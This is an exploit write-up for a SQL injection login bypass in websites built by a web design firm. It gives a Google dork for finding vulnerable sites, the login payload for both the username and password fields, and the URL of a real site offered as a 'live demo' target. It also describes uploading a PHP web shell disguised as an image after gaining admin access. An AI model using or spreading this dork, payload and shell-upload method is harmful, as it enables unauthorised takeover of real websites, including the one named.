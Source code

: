 Web Design by ChromeMedia Inc SQL Injection Vulnerability

* Exploit Title        : Web Design by ChromeMedia Inc SQL Injection Vulnerability
* Google Dork          : - intext:Web Design by ChromeMedia Inc | "Explore Your Brain !!"
* Date                 : 16/06/2014
* Exploit Author       : Fathur Freakz ft Barrabravaz
* Vendor Homepage      : http://www.chromemedia.com
* Version              : -
* Tested on            : Windows, Linux, Mac

Author will be not responsible for any damage
* Issue: SQL Injection Bypass Login
* Risk level: High

> The remote attacker has the possibility to manage the website.
> The remote attacker is able to login into website with access level as admin.

## Proof Of Concept:
> http://127.0.0.1/manage/login.php

##### Username :  ' or 1=1 limit 1 -- -+
##### Password :  ' or 1=1 limit 1 -- -+

## LIVE DEMO
> http://www.kwdoor.com/manage/login.php

## How
* Login > Site Pages > [ Company Profile ] > Upload Photo
* Upload shell with  shell.php.jpg

## Thanks To
* Bang Galih
* Beb Hafid
* Yoga Harvananda
* Mas Nico
* Nindya
* Yogyakarta still BlackHat
* SunDi3yansyah
* And You

## Developer
* SurabayaBlackHat
* YogyakartaBlackHat